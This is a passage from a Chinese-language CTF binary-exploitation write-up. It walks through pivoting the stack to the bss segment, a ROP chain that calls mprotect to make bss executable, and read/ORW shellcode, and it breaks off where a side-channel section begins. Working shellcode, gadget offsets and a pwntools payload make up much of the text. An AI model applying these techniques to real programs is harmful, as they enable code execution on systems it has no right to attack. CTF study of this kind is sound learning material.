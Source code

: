 \#############################################################

这样的话我们就可以写入read的系统调用

```c
sc_read = f'''
        xor rax, rax                     #将rax，rdx中清零
        xor rdi, rdi
        push {bss_addr+0x100}            #将迁移的地址pop进rsi寄存器作为第二个
        pop rsi
        push 0x100                       #将0x100的数值pop进rdx中作为第三个参数
        pop rdx
        syscall                          #触发系统调用
        jmp rsi
    '''
```

（写shellcode一定要指定arch哇，不然就跟我似的整了半下午的shellcode，最后加了个arch给解决了。）

我们先看bss段的base是多少，由于没有开启pie，因此我们从ida上就可以得到bss的地址

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-2f39e602d8364f736c2c1dd4f8e78dd3bfe44f28.png)

得到了bss的基地址是0x404020，但是在我们调试的时候发现这一段似乎并没有可执行的权限

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-f6c27a5e3925c7982b21a038d645721d68ee0161.png)

可读可写但是不可执行，这样的话我们需要先赋予bss段可执行的权限，这就想到了mprotect函数。栈迁移到bass段之后，要先写入的是mprotect函数赋权的行为。那首先将我们需要用到的gadget还有地址写上。

```python
bss_addr = elf.bss() + 0x500
read_addr = 0x4013DD
leave_addr = 0x401402
pop_rdi_ret = libc_base + 0x26bb2
pop_rsi_ret = libc_base + 0x2709c
pop_rdx_r12_ret = libc_base + 0x11c421

```

着手去整，一步一步来走不通了想办法解决哇。

先进行ebp的劫持，然后向bss段上面写东西。

```python
    pl = p64(pop_rdi_ret) + p64(bss_addr & 0xfffff000) + p64(pop_rsi_ret) + p64(0x1000) + p64(pop_rdx_r12_ret) + p64(7) + p64(0) + p64(mprotect_addr)
    pl += p64(bss_addr + len(pl) + 8) + asm(shellcode_read)
    pl += pl.ljust(0x80, b'\x00') + p64(bss_addr - 8) + p64(leave_addr)
    sleep(0.1)
    s(pl)
```

经过了这个payload之后，通过迁移我们将mrotect写入了bss段，然后再经过一次迁移将orw的shellcode写入bss上并跳转执行，接下来的问题就是解决orw中的w的问题emmm，，

### 侧信道攻击（重要的来了
